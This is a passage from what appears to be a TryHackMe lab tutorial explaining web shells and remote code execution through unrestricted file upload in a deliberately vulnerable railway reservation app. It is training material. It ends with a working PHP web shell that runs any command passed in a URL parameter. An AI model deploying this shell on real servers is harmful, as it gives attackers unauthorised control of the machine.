 
 ![Frosty Pines Hotel Key Graphic](https://tryhackme-images.s3.amazonaws.com/user-uploads/6228f0d4ca8e57005149c3e3/room-content/6228f0d4ca8e57005149c3e3-1730310085341.png) \n 


## What Is a Web Shell

A web shell is a script that attackers upload to a vulnerable server, giving them remote control over it. Once a web shell is in place, attackers can run commands, manipulate files, and essentially use the compromised server as their own. They can even use it to launch attacks on other systems.


For example, attackers could use a web shell to:

* Execute commands on the server
* Move laterally within the network
* Download sensitive data or pivot to other services


A web shell typically gives the attacker a web-based interface to run commands. Still, in some cases, attackers may use a reverse shell to establish a direct connection back to their system, allowing them to control the compromised machine remotely. Once an attacker has this level of access, they might attempt privilege escalation to gain even more control, such as achieving root access or moving deeper into the network.


Okay, now that we're familiar with a remote code execution vulnerability and how it works, let's take a look at how we would exploit it!


## Practice Makes Perfect

To understand how a file upload vulnerability can result in an RCE, the best approach is to get some hands-on experience with it. A handy (and ethical) way to do this is to find and download a reputable open-source web application which has this vulnerability built into it. Many open-source projects exist in places like GitHub, which can be run in your own environment to experiment and practice. In today's task, we will demonstrate achieving RCE via unrestricted file upload within an [open-source railway management system](https://github.com/CYB84/CVE_Writeup/tree/main/Online%20Railway%20Reservation%20System) that has this vulnerability[ built into it](https://github.com/CYB84/CVE_Writeup/blob/main/Online%20Railway%20Reservation%20System/RCE%20via%20File%20Upload.md).

## Exploiting RCE via File Upload

Now we're going to go through how this vulnerability can be exploited. For now, you can just read along, but an opportunity to put this knowledge into practice is coming up. Once an RCE vulnerability has been identified that can be exploited via file upload, we now need to create a malicious file that will allow remote code execution when uploaded.


Below is an example PHP file which could be uploaded to exploit this vulnerability. Using your favourite text editor, copy and paste the below code and save it as shell.php.


```javascript
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```